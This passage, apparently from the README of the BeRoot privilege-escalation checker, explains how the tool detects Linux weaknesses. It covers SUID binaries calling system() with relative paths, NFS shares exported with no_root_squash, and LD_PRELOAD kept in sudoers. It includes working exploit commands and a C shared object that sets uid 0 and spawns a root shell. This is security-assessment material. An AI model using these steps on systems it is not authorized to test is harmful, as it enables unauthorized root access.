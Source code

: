 For more information, checks these two examples [here](https://0xrick.github.io/hack-the-box/zipper/#privilege-escalation-and-getting-root) and [here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

To detect it, on each suid binary, we try to find the system call using objdump.

```
objdump -T suid_bin | grep " system"
```

If it exists, we realise a `strings` on this binary, and try to found a string which does not use an absolute path and that it exists as a built in binary (/bin, /usr/bin, /sbin, etc.). Some false positive can occur, so a manual check should be done.

This cannot be done if exec functions are used (execve|execl|execlp|execle|execv|execvp|execvpe) because the file should be run from an absolute path.

## NFS Root Squashing

[](https://github.com/AlessandroZ/BeRoot/tree/master/Linux#nfs-root-squashing)

If **no_root_squash** appears in `/etc/exports`, privilege escalation may be done. More information can be found [here](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/).

Exploitation:

```
mkdir /tmp/nfsdir  # create dir
mount -t nfs 192.168.1.10:/shared /tmp/nfsdir # mount directory 
cd /tmp/nfsdir
cp /bin/bash . 	# copy wanted shell 
chmod +s bash 	# set suid permission
```

## LD_PRELOAD

[](https://github.com/AlessandroZ/BeRoot/tree/master/Linux#ld_preload)

If **LD_PRELOAD** is explicitly defined on sudoers file, it could be used to elevate our privilege. \

For example:

```
Defaults        env_keep += LD_PRELOAD
```

Create a share object:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
